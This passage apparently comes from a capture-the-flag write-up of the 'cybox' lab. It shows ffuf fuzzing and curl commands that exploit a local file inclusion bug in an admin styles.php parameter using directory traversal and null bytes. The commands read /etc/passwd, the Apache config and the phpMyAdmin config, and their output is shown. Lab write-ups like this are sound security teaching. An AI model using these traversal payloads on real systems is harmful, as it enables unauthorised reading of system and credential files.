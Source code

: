 When I use the `fuff` command to identify how many `/..` I need, and I use the `LFI-Jhaddix.txt` list of Seclist
And I add it the `PHPSESSID` cookie because I must be `admin` :
```shell
$ ffuf -w LFI-Jhaddix.txt:FUZZ -u \
> "http://monitor.cybox.company/admin/styles.php?style=FUZZ%00" -b \
> "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4" -fs 0

...SNIPPED...
../../../../../../etc/passwd
[Status: 200, Size: 1776, Words: 14, Lines: 36]
...SNIPPED...
```
When I see the `/etc/passwd`:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?
> style=../../../../../../etc/passwd%00" -b
> "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"

$ admin:x:1002:1002::/home/admin:/bin/bash
$ testing:x:1003:1003::/home/testing:/bin/bash
```
Then I can see the user `testing`, and that is the user that I create with the `register` vhost, and that means that it also creates a user on the server, but I want to explore the files that I can get from the LFI.
When I check the `/phpinfo.php` on `dev` vhost, then I see the path `/opt/bitnami/apache2`:

![evidence](12-dev-phpinfo.png)

When I use the LFI to get the `httpd.conf`, and knowing that the `Apache2` directory is in `/opt/bitnami/apache2`, and use the `curl` command:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apache2/conf/httpd.conf%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"

...SNIPPED...
AddType application/x-httpd-php .php .phtml
Include "/opt/bitnami/apache2/conf/ssi.conf"
AddType application/x-httpd-php .php
PHPIniDir "/opt/bitnami/php/etc"
Include "/opt/bitnami/apache2/conf/fastcgi.conf"
Include "/opt/bitnami/apps/phpmyadmin/conf/phpmyadmin.conf"
...SNIPPED...
```
Then the `phpmyadmin.conf` catches my attention. When I get the `phpmyadmin.conf` file:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apps/phpmyadmin/conf/phpmyadmin.conf%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"

Alias /phpmyadmin "/opt/bitnami/apps/phpmyadmin/htdocs"

<Directory "/opt/bitnami/apps/phpmyadmin/htdocs">
AuthType Basic
AuthName phpMyAdmin
AuthUserFile "/opt/bitnami/apache2/users"
Require valid-user
Order allow,deny
Allow from 127.0.0.1
Satisfy all
ErrorDocument 403 "For security reasons, this URL is only accessible using
localhost (127.0.0.1) as the hostname"
</Directory>
```